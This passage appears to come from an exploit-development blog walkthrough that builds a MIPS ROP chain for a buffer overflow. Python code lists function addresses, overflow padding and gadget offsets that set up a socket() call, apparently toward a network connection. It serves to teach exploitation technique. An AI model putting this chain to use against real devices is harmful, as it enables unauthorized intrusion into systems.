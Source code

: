 ## Chain Breakdown

We begin the chain by creating a payload that will trigger the overflow, we can use the offsets we found in the previous blog to work out what registers will be filled - we don't care about what is in them right now, so we can just fill them with `0xdeadbeef`. *p32* just packs the addresses correctly so they go into the registers as we would expect.

```python
# Function address
sendto_addr = 0x80128bc4
socket_addr = 0x801293d0
sleep_addr = 0x8019abac
connect_addr = 0x80129028
strlen_addr = 0x801a717c

# Padding
chain = b'a'*132

# Add the strings to the sX registers, and set the ra to first gadget
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x11e670 + base_address) # ra
```

### socket

`int socket(int domain, int type, int protocol);`

The *socket* function takes 3 arguments - *domain*, *type*, and *protocol*. We want *domain* to be *AF_INET* which corresponds to a value of 2. Then we want type to be *SOCK_DGRAM*, which is also 2. The final argument is then 0 as we want the OS to determine the protocol based on the *domain* and *type* values we provided. The code below adds gadgets that set these values:

```python
## Set first argument for socket to 2
# 0x0011e670: addiu $a0, $zero, 2; lw $ra, 4($sp); move $v0, $zero; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b'*4
chain += p32(0x172e0c + base_address) # ra

## Set second argument for socket to 2 
# Set a1 to be 0
# 0x00172e0c: move $a1, $zero; lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x115428 + base_address)

# Add 2 to a1
# 0x00115428: addiu $a1, $a1, 2; lw $ra, 4($sp); move $v0, $s0; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += p32(0xdeadbeef) # s0
chain += p32(0x6d42c + base_address)

## Set third argument for socket to 0
# 0x0006d42c: move $a2, $zero; lw $ra, 4($sp); addiu $v0, $zero, 1; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x57864 + base_address) # ra
```

